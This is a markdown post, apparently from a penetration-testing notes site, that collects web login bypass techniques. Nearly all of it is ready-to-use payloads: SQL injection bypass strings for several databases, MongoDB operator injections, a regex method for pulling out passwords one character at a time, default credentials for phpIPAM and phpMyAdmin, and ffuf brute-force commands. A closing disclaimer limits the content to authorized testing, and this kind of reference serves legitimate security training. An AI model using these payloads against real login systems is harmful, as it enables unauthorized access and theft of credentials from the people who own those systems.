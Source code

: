 ```yaml
---
title: WEB LOGIN BYPASS
date: 2023-05-05 01:35:40 +/-TTTT
categories: [learning, ctf]
tags: [learning]     # TAG names should always be lowercase
---
```


# SQL INJECTION     
```
admin' or '1'='1
```
# Microsoft, Oracle, PostgreSQL
```
admin'--
admin' or 1=1--
admin' or '1'='1'--

admin}" or 1=1--
```
# MySQL
```
admin'-- -
admin'#

admin' or 1=1#
admin' or 1=1-- -

admin' or '1'='1'-- -
admin' or '1'='1'#

admin}" or 1=1-- -
```
# NoSQL Injection
`MONGO`
```
admin' || 1==1//
admin' || 1==1%00
admin' || '1==1
admin' || '1'=='1
```
* Operators
```JS
# $ne: Not equal
username[$ne]=xyz&password[$ne]=xyz

# $regex: Regular expressions
username[$regex]=.*&password[$regex]=.*
username[$regex]=^xyz&password[$regex]=^xyz
username[$regex]=^a.*$&password[$ne]=xyz
username[$regex]=.{6}&password[$ne]=xyz
username[$regex]=^.{1}&password[$regex]=^.{1} # Length of values

# $exists: Exists in the database
username[$exists]=true&password[$exists]=true

# $nin: Not include
username[$nin][admin]=admin&password[$ne]=xyz
# If we found the "admin" exists, we can exclude "admin" by specifying $nin operator.
username[$nin][]=admin&password[$ne]=xyz
# If more users are found, we can exclude the user.
username[$nin][]=admin&username[$nin][]=john&password[$ne]=xyz

# $gt: Greater than
username[$gt]=s&password[$gt]=s
# $lt: Lower than
username[$lt]=s&password[$lt]=s

# Combinations
username[$ne]=xyz&password[$regex]=.*
username[$exists]=true&password[$ne]=xyz
username[$ne]=xyz&password[$exists]=true
username[$regex]=.*&password[$ne]=xyz
username[$ne]=xyz&password[$regex]=.*
username[$regex]=.{6}&password[$ne]=xyz
```
After finding usernames, we can also obtain the passwords using the “$regex” operator as the following example.
```JS
# Check if the password length is 7 characters.
username=admin&password[$regex]=^.{7}$
# If not, change 7 to 6 (or 8 or something number).
username=admin&password[$regex]=^.{6}$
# If the number of characters turns out to be 6, brute force the character one by one.
username=admin&password[$regex]=^a.....$
username=admin&password[$regex]=^s.....$
username=admin&password[$regex]=^se....$
username=admin&password[$regex]=^sec...$
```
* Operators in Json

If the above payloads not working, try changing to a json format.
We also need to change the value of the Content-Type to “application/json” in the HTTP header.
```js
Content-Type: application/json

{"username": { "$ne": "xyz" }, "password": { "$ne": "xyz" }}
```
# Default Credentials
```
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```
# Wildcard Brute Force
If it is allowed to login with wildcard (*), you may be able to find the username/password with brute force.
```
username = *
password = *
```
For example, in Turbo Intruder (Burp Suite), login attempt with alpha numeric characters one by one.
```
username=%s*&password=*
# or
username=*&password=%s*
```
My favorite wordlist for it is the seclists:

* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt

# Brute Force Credentials
Before brute forcing, we need wordlists used for it.

* Rockyou : https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz

* SecLists : https://github.com/danielmiessler/SecLists 

* CeWL : https://github.com/digininja/CeWL

Generate the custom wordlist from the target web page.
```
cewl https://vulnerable.com > scraped_words.txt
```
# Ffuf
```js
# -fc: Filter HTTP status code
ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401

# Basic Auth
ffuf -u https://admin:FUZZ@example.com/ -w wordlist.txt -fc 401
```
# REFERENCE
* https://tryhackme.com/room/nosqlinjectiontutorial

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```
